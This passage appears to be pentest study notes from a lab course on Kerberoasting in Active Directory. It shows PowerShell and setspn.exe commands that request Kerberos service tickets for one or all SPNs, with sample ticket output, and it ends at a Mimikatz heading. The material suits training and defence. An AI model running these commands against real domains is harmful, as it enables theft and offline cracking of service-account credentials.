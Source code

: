 > [!important] **Tool:** PowerShell + .NET

> [!important]
> 
> ```PowerShell
> Add-Type -AssemblyName System.IdentityModel
> 
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
> ```

- Loads the TGS ticket into memory
- Can request tickets for a single user or loop through all

## **Retrieving All Tickets Using setspn.exe**

> [!important]
> 
> ```Bash
> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
> ```

- Output
    
    ```Bash
    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-3
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/25/2022 8:55:25 AM
    ServicePrincipalName : exchangeAB/ACADEMY-EA-DC01
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
    
    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-4
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/24/2022 11:58:18 PM
    ServicePrincipalName : kadmin/changepw
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
    
    Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-5
    SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
    ValidFrom            : 2/24/2022 11:56:18 PM
    ValidTo              : 2/25/2022 8:55:25 AM
    ServicePrincipalName : WSMAN/ACADEMY-EA-MS01
    SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
    
    <SNIP>
    ```
    

---

# Extracting Tickets Using Mimikatz
